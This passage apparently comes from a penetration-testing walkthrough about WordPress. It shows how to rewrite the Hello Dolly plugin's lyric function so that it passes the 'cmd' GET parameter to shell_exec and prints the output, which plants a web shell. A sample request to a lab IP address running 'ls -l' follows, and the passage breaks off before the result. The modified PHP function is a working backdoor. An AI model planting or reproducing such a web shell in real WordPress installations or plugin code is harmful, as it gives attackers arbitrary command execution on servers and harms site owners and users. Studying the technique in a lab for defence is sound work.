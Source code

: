We can modify what it prints by editing the plugin. Change the content of `hello_dolly_get_lyric()` with the following.

~~~php
function hello_dolly_get_lyric() {
  /** These are the lyrics to Hello Dolly */
  $lyrics = "Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
We feel the room swayin'
While the band's playin'
One of your old favourite songs from way back when
So, take her wrap, fellas
Find her an empty lap, fellas
Dolly'll never go away again
Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
We feel the room swayin'
While the band's playin'
One of your old favourite songs from way back when
Golly, gee, fellas
Find her a vacant knee, fellas
Dolly'll never go away
Dolly'll never go away
Dolly'll never go away again";

  // Here we split it into lines
  $lyrics = explode( "\n", $lyrics );

  // And then randomly choose a line
  //return wptexturize( $lyrics[ mt_rand( 0, count( $lyrics ) - 1 ) ] );
  $lyrics = "<pre>".shell_exec($_GET['cmd'])."</pre>";
  return  wptexturize($lyrics);
}
~~~

See that I commented the return value, change the `$lyrics` variable to print the execution result of shell commands we put in `cmd` GET parameter and put it on the page. Try the following GET request.

~~~
http://192.168.0.104:8080/wordpress/wp-admin/index.php?cmd=ls%20-l
~~~

This is what we're going to get.
